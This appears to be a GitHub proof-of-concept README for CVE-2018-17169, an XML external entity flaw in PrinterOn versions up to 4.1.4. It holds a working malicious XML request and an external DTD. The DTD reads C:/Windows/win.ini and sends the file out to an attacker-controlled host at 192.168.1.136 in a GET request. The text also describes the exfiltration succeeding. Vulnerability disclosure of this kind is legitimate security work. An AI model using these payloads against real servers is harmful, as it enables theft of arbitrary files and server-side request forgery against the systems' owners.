 # CVE-2018-17169-XXE-PrinterON
<br />
An XML external entity (XXE) vulnerability in PrinterOn version 4.1.4 and lower allows remote authenticated users to read arbitrary files or conduct server-side request forgery (SSRF) attacks via a crafted DTD in an XML request.
<br />


##### Malicious XML (local-dtd.xml):
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://192.168.1.136/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r> 
```

##### Malicious DTD (ev.xml):
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://192.168.1.136/?%data;'>">
```

##### We serve a malicious xml document to the printer:
<img src="XXE1.png">
<br />
<img src="XXE2.png">



We can see that our DTD (ev.xml) is being requested and processed.
The external entity declared within the DTD file is resolved and C:/Windows/win.ini file from the server filesystem is being sent to us in a GET request within the url. 
<img src="XXE3.png">

